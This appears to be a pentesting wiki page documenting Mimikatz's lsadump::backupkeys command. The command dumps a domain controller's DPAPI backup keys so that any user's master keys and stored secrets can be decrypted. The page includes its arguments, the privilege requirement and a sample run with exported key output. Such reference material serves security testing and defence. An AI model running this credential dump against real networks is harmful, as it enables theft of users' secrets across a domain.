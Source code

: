 # backupkeys

It dumps the DPAPI backup keys from the Domain Controller (cf. [dumping DPAPI secrets](https://www.thehacker.recipes/ad/movement/credentials/dumping/dpapi-protected-secrets)). By holding the backup keys any user's master key can be decrypted and as a result the users' secrets can be decrypted. It has the following command line arguments:

* `/export`: export the output as `.pvk` which means "_private key_"
* `/secret`: _at the time of writing, November 1st 2021, we don't know what this option refers to_
* `/system`: the target DC hostname
* `/guid`: The `szGuid` value. It can be found at `C:\Users\<username>\AppData\Roaming\Microsoft\Credentials`, `C:\Users\<username>\AppData\Local\Microsoft\Credentials` and `C:\Users\<username>\AppData\Roaming\Microsoft\Protect\SID`. It can also be obtained with [sekurlsa::dpapi](https://tools.thehacker.recipes/mimikatz/modules/sekurlsa/dpapi)

{% hint style="warning" %}
This command requires elevated privileges (by previously running [privilege::debug](https://tools.thehacker.recipes/mimikatz/modules/privilege/debug) or by executing Mimikatz as the `NT-AUTHORITY\SYSTEM` account).
{% endhint %}

```
mimikatz # lsadump::backupkeys /export

Current prefered key:       {e3364acb-379c-4775-bef7-c3c1e1992589}
  * RSA key
        |Provider name : Microsoft Strong Cryptographic Provider
        |Unique name   :
        |Implementation: CRYPT_IMPL_SOFTWARE ;
        Algorithm      : CALG_RSA_KEYX
        Key size       : 2048 (0x00000800)
        Key permissions: 0000003f ( CRYPT_ENCRYPT ; CRYPT_DECRYPT ; CRYPT_EXPORT ; CRYPT_READ ; CRYPT_WRITE ; CRYPT_MAC ; )
        Exportable key : YES
        Private export : OK - 'ntds_capi_0_e3364acb-379c-4775-bef7-c3c1e1992589.keyx.rsa.pvk'
        PFX container  : OK - 'ntds_capi_0_e3364acb-379c-4775-bef7-c3c1e1992589.pfx'
        Export         : OK - 'ntds_capi_0_e3364acb-379c-4775-bef7-c3c1e1992589.der'

Compatibility prefered key: {b799ff33-a573-444f-bc86-b8aeb36fcb3f}
  * Legacy key
561acf46e03db74112af7412402415d80dfe92b0fbf57588358647007d46f28f
8f6ca1990c0fee951bd52e69e9bdfbf9c8e07be0033dff21a71d192447668096
f6e1199e5b8b61fb3ffb758a92757efe863307cefd7d773476053286c08dc7c6
87671f0e7374ccc179e6cf718673beb80dfe12bf03c7914a767a959b66478498
14527ee085f014c7574d9b9388dae00f42ee91f96e97c8272d6955e51e2d7304
67be8b32a706203bacf3abaca3d9f1ec90e4d63290e39d2e6c2465fc0e195b7a
2baadcb281537863a37c2e0f76d025ecb7a23b81970dbe2ab8e77b3b2fb617d7
bb7b81126e17a60d3023b0b8db159dd927f49136ce14f29565d3d9794d2f9c79

        Export         : OK - 'ntds_legacy_0_b799ff33-a573-444f-bc86-b8aeb36fcb3f.key'
```
